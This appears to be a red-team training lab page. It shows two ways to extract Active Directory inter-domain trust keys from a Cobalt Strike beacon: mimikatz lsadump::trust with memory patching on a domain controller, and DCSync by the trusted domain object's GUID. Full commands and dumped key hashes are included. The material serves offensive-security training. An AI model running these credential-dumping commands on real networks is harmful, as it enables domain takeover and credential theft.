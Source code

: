 **There are&#x20;**<mark style="color:$success;">**two options for obtaining the key material**</mark>**:**

1. **Move laterally to the DC and dump from memory:**

```
beacon> run hostname
dc-1

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> mimikatz lsadump::trust /patch

Domain: MSP.ORG (MSP / S-1-5-21-616357355-3455548143-339820157)
 [  In ] CYBERBOTIC.IO -> MSP.ORG

 [ Out ] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496

 [ In-1] CYBERBOTIC.IO -> MSP.ORG

 [Out-1] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496
```

{% hint style="danger" %}
**KEEP IN MIND:**&#x20;

This performs memory patching, which is very risky, particularly on a domain controller.
{% endhint %}

2. <mark style="color:yellow;">**`DCSync`**</mark>**&#x20;with the TDO's GUID:**

```
beacon> powershell Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid

objectguid                          
----------                          
b93d2e36-48df-46bf-89d5-2fc22c139b43
```

```
beacon> mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}

[DC] 'cyberbotic.io' will be the domain
[DC] 'dc-1.cyberbotic.io' will be the DC server
[DC] Object with GUID '{b93d2e36-48df-46bf-89d5-2fc22c139b43}'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : msp.org

** TRUSTED DOMAIN - Antisocial **

Partner              : msp.org
 [ Out ] MSP.ORG -> CYBERBOTIC.IO
```